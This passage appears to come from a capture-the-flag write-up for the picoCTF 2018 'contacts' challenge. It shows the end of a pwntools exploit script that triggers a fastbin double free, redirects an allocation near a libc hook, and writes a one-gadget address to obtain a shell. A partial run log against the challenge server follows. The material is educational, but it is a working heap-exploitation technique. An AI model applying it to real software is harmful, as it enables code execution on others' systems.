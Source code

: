 ```python

bio("b", 103, b'') # allocate from the 0x70 fastbin
bio("c", 103, b'') # also from the 0x70

bio("b", 300, b'') # free the fast bin
bio("c", 300, b'') # free a different one
bio("b", 300, b'') # DOUBLE FREE!

fastchunkoffset = libcaddr + 0x3c4aed
bio("d", 103, p64(fastchunkoffset)) #0x7fffff3f4aed 
bio("e", 103, b'')
bio("f", 103, b'') # Reallocates same address, pushing 0x7fffff3f4aed to the top of the fastbin
gadget = libcaddr + 0x4526a
payload = b'U'*19 + p64(gadget)
print(payload)
bio("g", 103, payload)

create("pwn")

p.interactive()
```

Let's try it out, the challenge is available at `2018shell.picoctf.com`, port 29455:

```
$ python3 contacts_pwn.py
[+] Opening connection to 2018shell.picoctf.com on port 29455: Done
Available commands:
    display - display the contacts
    create [name] - create a new contact
    delete [name] - delete an existing contact
    bio [name] - set the bio for an existing contact
    quit - exit the program

Enter your command:
>
create a
Created contact "a"

Enter your command:
>
bio a
How long will the bio be?
b'151abc'
Enter your new bio:
Bio recorded.

Enter your command:
>
create b
Created contact "b"

Enter your command:
>
bio a
How long will the bio be?
b'300'
Bio must be at most 255 characters.

Enter your command:
>
display
a - xkóÝ\x1d
b - (No bio)
```